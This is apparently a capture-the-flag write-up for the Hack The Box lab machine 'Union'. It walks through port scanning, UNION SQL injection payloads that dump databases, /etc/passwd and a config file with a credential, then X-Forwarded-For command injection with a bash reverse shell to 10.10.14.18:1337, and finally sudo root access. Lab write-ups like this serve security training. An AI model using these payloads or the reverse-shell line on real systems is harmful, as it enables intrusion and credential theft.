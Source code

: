 # [Union](https://app.hackthebox.com/machines/Union)

```bash
nmap -p- --min-rate 10000 10.10.11.128 -Pn
```

![alt text](img/image.png)

After detection of open port (80), let's do greater scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.11.128 -Pn
```

![alt text](img/image-1.png)



Let's do `Directory Enumeration` via `gobuster` tool.
```bash
gobuster dir -u http://10.10.11.128/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -t 40
```

![alt text](img/image-2.png)


While browsing `challenge.php`, it asks flag from me.

![alt text](img/image-3.png)


But on main page, I mean `index.php`, there's requst like asking username from me.

![alt text](img/image-4.png)

Our request is like below.

![alt text](img/image-5.png)

We can fuzz here via `SQLI` payloads.

![alt text](img/image-6.png)


Let's add `UNION SQLI` payload into here.
```bash
player=test' union select user();-- -
```
![alt text](img/image-7.png)

Let's dump `databases` names via below payload.
```bash
player=test' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata;-- -
```

![alt text](img/image-8.png)


Let's select `november` database and dump tables from here.
```bash
player=' union select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november';-- -
```

![alt text](img/image-9.png)


Let's dump data from `flag` table.
```bash
player=' union select group_concat(one) from flag;-- -
```

![alt text](img/image-10.png)


Flag: UHC{F1rst_5tep_2_Qualify}


We need to enter this into `/challenge.php` file.While we enter this flag, it says such an answer from `firewall.php` file.

![alt text](img/image-11.png)


Let's dump local files via this `SQL Injection` attack by using `load_file()` function of MySQL.
```bash
player=' union select load_file('/etc/passwd');-- -
```

![alt text](img/image-12.png)

Let's dump `config.php` file which is located on `var/www/html/config.php` directory.
```bash
player=' union select load_file('/var/www/html/config.php');-- -
```

![alt text](img/image-13.png)


I take credentials from here for my target machine.

uhc: uhc-11qual-global-pw

Let's check this credentials via `ssh` command.

user.txt

![alt text](img/image-14.png)


I just make enumeration for files and find interesting stuff from `firewall.php` file.

![alt text](img/image-15.png)

From this file, you can see `system` function which executes system commands and it is dangerous.
```bash
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
```

If we abuse here by adding malicious content into `X-Forwarded-For` HTTP request header, we can execute system commands.

Note: `X-Forwarded-For` http request header is used to detect IP address of client. Here's also implemented.

Let's check by sending request which contains system command `ping` to see `Command Injection` attack works or not.
```bash
X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.18;
```

![alt text](img/image-17.png)

I can see this command executed or not via `tcpdump -I tun0` cmdlet.

![alt text](img/image-16.png)


Now, it's time for `reverse shell` adding to this `Command Injection` part.
```bash
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.18/1337 0>&1";
```

![alt text](img/image-18.png)


Hola!, I got reverse shell from port `1337`.

![alt text](img/image-19.png)

Let's make interactive shell via below commands.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-20.png)


Let's check privileges of this user via `sudo -l` command.

![alt text](img/image-21.png)


As you see, that's so easy part of `Privilege Escalation`, it means if we do `sudo -s`, we can get root shell.

root.txt

![alt text](img/image-22.png)